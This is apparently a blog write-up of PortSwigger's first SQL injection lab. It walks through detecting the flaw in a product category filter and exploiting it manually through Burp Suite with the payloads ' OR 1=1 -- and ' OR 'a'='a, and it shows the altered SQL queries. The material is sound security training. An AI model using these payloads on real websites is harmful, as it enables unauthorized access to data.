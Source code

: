 ```yaml
---
title: Web Security Academy | SQL Injection
description: Writeup of PortSwigger's SQL Injection Labs
date: 2023-03-02 12:00:00 -500
categories: [Portswigger, SQL Injection]
tags: [Web Exploitation, SQL Injection, Python3, sqlmap, Burp Suite, UNION-based SQL Injection]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/portswigger-sqli/img.png
---
```


# **<strong><font color="Brown">Lab-1</font></strong>**
***
## **<strong><font color="DarkCyan">About</font></strong>**

This <a href="https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data" target="_blank"><er>Lab</er></a> contains a <a href="https://portswigger.net/web-security/sql-injection" target="_blank"><er>SQL injection </er></a>vulnerability in the product category filter. <br/>
To solve the lab, we need to perform a SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

## **<strong><font color="DarkCyan">Detection</font></strong>**
* Submit a single quotation mark ```'``` in ```/filter?category=Gifts``` to break out the original SQL query quotation marks and cause an error
* The resulting query sent by the App to the back-end database:
```sql
SELECT * FROM products WHERE category = 'Gifts'' AND released = 1
```
* The App returns a ```500 Internal Server Error``` response, which means that an error has occured in the back-end while processing the query.
* The ```category``` parameter is vulnerable to SQL injection.

## **<strong><font color="DarkCyan">Exploitation</font></strong>**
### **<strong><font color="MediumPurple">Manual</font></strong>**

1. Intercept the request with Burp Suite proxy
2. Send the request to repeater
3. Inject the ```category``` parameter with the following payload: ``` ' OR 1=1 --``` 
4. The resulting SQL query sent by the App to the backend database: 
```sql
SELECT * FROM products WHERE category = '' OR 1=1 --' AND released = 1
```
which is
```sql
SELECT * FROM products WHERE category = '' OR 1=1
```
> **📍 Note:** The following payload ```' OR 'a'='a``` is also valid and achieves the same result as the 1=1 attack to return all products, regardless of whether they have been released.
```sql
SELECT * FROM products WHERE category = '' OR 'a'='a' AND released = 1 
```
